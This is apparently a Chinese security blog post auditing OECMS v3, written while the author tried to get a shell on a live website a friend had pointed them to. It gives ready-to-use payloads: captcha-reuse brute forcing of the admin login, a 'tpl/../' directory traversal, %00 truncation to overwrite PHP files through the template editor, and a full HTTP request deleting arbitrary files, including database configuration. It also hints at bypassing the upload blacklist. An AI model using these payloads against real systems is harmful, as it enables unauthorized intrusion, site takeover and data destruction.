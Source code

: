 ```yaml
---
title: "Oecms v3 Audit"
date: 2019-04-15T13:06:38+08:00
lastmod: 2019-04-15T13:06:38+08:00
draft: false
tags: ['audit']
categories: ['代码审计']
comment: true
---
```


实战中碰到了这个cms，审计一波，记录一下

<!--more-->

@ershiyi发我一个网站，让我拿shell，看了下是oecmsv3.0的源码，并且二次开发过。有后台的账号和密码，关键在于怎么getshell，所以sql注入的点我没看。以下是审计结果。

# 后台登陆爆破

`http://go.go/admin/login.php`

![](https://y4er.com/img/uploads/20190509166907.jpg)

产生原因：

`oecms\data\include\imagecode.php`生成验证码后存入session

```php
while(($randval=rand()%100000)<10000);{
        $_SESSION["verifycode"] = $randval;
        //将四位整数验证码绘入图片 
        imagestring($im, 5, 10, 3, $randval, $black);
    }
```

`oecms\admin\login.php`进行验证码比对后并没有及时刷新session

```php
if($checkcode != $_SESSION["verifycode"]){
			$founderr	= true;
			$errmsg	   .= "验证码不正确.<br />";
		}
```

# 后台文件遍历

`E:\WWW\oecms\admin\oecms_template.php`

```php
function volist(){
	Core_Auth::checkauth("templatevolsit");
	global $dir,$tpl;
	if(!Core_Fun::ischar($dir)){
		$dir = "tpl";
	}

	if(substr($dir,0,3)!="tpl"){
		Core_Fun::halt("对不起，模板管理只允许读取“tpl”目录下的文件！","",1);
	}
.
.
.
	$tpl->assign("dirpath",$dirpath);
	$tpl->assign("dir",$dir);
	$tpl->assign("template",$template);
}
```

限制`$dir`的前三个字符是`tpl`，可以用`http://go.go/admin/oecms_template.php?dir=tpl/../`绕过

![](https://y4er.com/img/uploads/20190509167792.jpg)

# 编辑模板getshell

`E:\WWW\oecms\admin\oecms_template.php`

```php
/* 扩展名 */
	$allow_exts = "tpl|html|htm|js|css";
	$array_file = explode(".",$urlstrs);
	$array_count = count($array_file);
	$file_ext = $array_file[$array_count-1];
	if(!Core_Fun::foundinarr($allow_exts,strtolower($file_ext),"|")){
		Core_Fun::halt("对不起，只允许修改后缀为.tpl,.html,.htm,.js和.css的文件！","",1);
	}
```

限制文件名后缀，考虑到这个cms比较老，目标站点是php5.3的环境，可以用`%00`绕过

payload:`/admin/oecms_template.php?action=edit&urlstrs=tpl/..//case.php%00.tpl`

在这边需要注意的是保存的时候也需要进行`%00`截断，并且编辑的文件需要是存在的php文件，否则无法getshell

因为在153行

```php
/* 检测文件 */
	if(!is_writeable("../".$urlstrs)){
		Core_Fun::halt("对不起，该文件没有修改的权限！请设置tpl目录权限后再试！","",1);
	}else{
		$handle = fopen("../".$urlstrs,"wb");
		if(!$handle){
			Core_Fun::halt("对不起，不能打开该文件！","",1);
		}else{
			if(@fwrite($handle,$content)===FALSE){
				Core_Fun::halt("对不起，文件修改失败，请检查该文件是否使用中！","",1);
			}else{
				Core_Command::runlog("","编辑文件成功[".$urlstrs."]",1);
				Core_Fun::halt("模板文件修改成功","oecms_template.php?dir=".urlencode(substr($filepath,0,(strlen($filepath)-1)))."",0);
			}
		}
		fclose($handle);
```

首先检查了文件是否可用，如果是不存在的文件，则返回`对不起`

# 任意文件删除

payload

```php
GET /admin/upload.php?action=del&comeform=myform&picfolder=&inputid=uploadfiles&thumbinput=thumbfiles&channel=product&thumbflag=1&thumbwidth=0&thumbheight=0&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=source/conf/db.inc.php HTTP/1.1
Host: go.go
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://go.go/admin/upload.php?action=show&comeform=myform&inputid=uploadfiles&thumbflag=1&thumbinput=thumbfiles&channel=product&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=data/attachment/201108/27/2c6e34c9bfd7a0b71ba157f17cc9666b.jpg
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: set_options=set01; yc7gv1sgapp_admininfo=27a9gBgBf3Nb4JZymeKzxzYAdfCau0p%2BKLHiFMQlKfHjg2vmJsuI%2B%2FbtehcrXGXAGPmT%2F9Tq6C5VvUkF1NVu9Gqth2vIf9elrseicrYUkz9KTiA; PHPSESSID=ae2da05952aff79b9f9f86466915b033; 7ZnF6tLU_ADMINNAME=admin; 7ZnF6tLU_ADMINPASSWORD=21232f297a57a5a743894a0e4a801fc3
Connection: close


```

修改`picurl`参数删除任意文件，payload中是删除数据库配置文件，慎用。删除`config.inc.php`后会导致重装

`admin/upload.php`103行

```php
function del(){
	Core_Fun::deletefile("../".$GLOBALS['picurl']);
	echo("<script language='javascript'>window.location.href='upload.php?action=&".$GLOBALS['comeurl']."';</script>");
}
```

跟踪`deletefile()`函数

```php
	public static function deletefile($s_filename){
		if(!self::ischar($s_filename)){
			return;
		}
		@unlink($s_filename);
	}
```

没有判断文件路径，导致任意文件删除。

# 后台文件黑名单上传

`http://go.go/admin/annexform.php?comeform=myform&inputname=uploadfiles`

黑名单`asp|aspx|asax|asa|jsp|cer|cdx|asa|htr|php|php3|cgi|html|htm|shtml`

可根据具体环境截断或者用其他可解析后缀来上传shell，在这里不细说。

# 后话

最后目标站也没拿下来，编辑模板报500，nginx上传截断无果